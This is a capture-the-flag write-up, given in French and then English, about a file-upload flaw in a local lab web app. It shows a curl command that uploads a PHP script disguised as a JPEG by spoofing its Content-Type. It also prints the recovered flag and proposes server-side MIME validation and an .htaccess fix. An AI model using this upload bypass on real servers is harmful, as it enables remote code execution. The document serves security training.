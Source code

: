 # Reproduction :  
En cliquant sur ADD IMAGE, on arrive sur un formulaire pour uploader une image.  
Nous envoyons un script une première fois, pour observer la requête POST, qui nous renvoie d'ailleurs un code 200 même si "l'image" n'est pas uploadée.  

Nous essayons maintenant d'envoyer ce même script en manipulant le Content-Type pour tromper le serveur, soit via Postman ou dans une requête curl :  

```sh
echo '<?php echo file_get_contents('/home'); ?>
<?php print "hello"; ?>' > /tmp/script.php  && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/script.php;type=image/jpeg" "http://localhost:8000/index.php?page=upload" | grep flag
```

Cette requête force le serveur à accepter le script PHP en tant qu'image.
En exécutant le script, nous récupérons le flag :  
`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`  

# Problème :  
L'application ne valide pas correctement le type de fichier uploadé. Cela permet à un attaquant de contourner les restrictions et d'exécuter des scripts malveillants directement sur le serveur, créant une faille de type Remote Code Execution (RCE).  

# Solutions :  
Validation stricte côté serveur :  

1. Vérifiez le type MIME réel des fichiers uploadés et non seulement le Content-Type déclaré par le client :  

```php
$allowedTypes = ['image/jpeg', 'image/png'];
$fileType = mime_content_type($_FILES['uploaded']['tmp_name']);
if (!in_array($fileType, $allowedTypes)) {
    die("Invalid file type.");
}
```

2. On peut aussi empêcher l'exécution de tout fichier dans le répertoire des uploads en configurant un fichier .htaccess :  

```php
<FilesMatch "\.(php|phtml|php3|php4|php5)$">
    Deny from all
</FilesMatch>
```

----------------------
----------------------
----------------------
----------------------

# Reproduction:  
By clicking on ADD IMAGE, we arrive at a form to upload an image.  
We first send a script to observe the POST request, which returns a 200 even if the "image" is not uploaded.  

Now we try to send the same script by manipulating the Content-Type to trick the server, either via Postman or in a curl request:  

```sh
echo '<?php echo file_get_contents('/home'); ?>
<?php print "hello"; ?>' > /tmp/script.php  && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/script.php;type=image/jpeg" "http://localhost:8000/index.php?page=upload" | grep flag
```

This request forces the server to accept the PHP script as an image. By executing the script, we retrieve the flag:  
`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`  

# Problem:  
The application does not properly validate the uploaded file type. This allows an attacker to bypass restrictions and execute malicious scripts directly on the server, creating a Remote Code Execution (RCE) vulnerability.  

# Solutions:  
Strict server-side validation:  

1. Verify the actual MIME type of uploaded files, not just the Content-Type declared by the client:  

```php
$allowedTypes = ['image/jpeg', 'image/png'];
$fileType = mime_content_type($_FILES['uploaded']['tmp_name']);
if (!in_array($fileType, $allowedTypes)) {
    die("Invalid file type.");
}
```

2. Prevent execution of any files in the upload directory by configuring a .htaccess file:  

```php
<FilesMatch "\.(php|phtml|php3|php4|php5)$">
    Deny from all
</FilesMatch>
```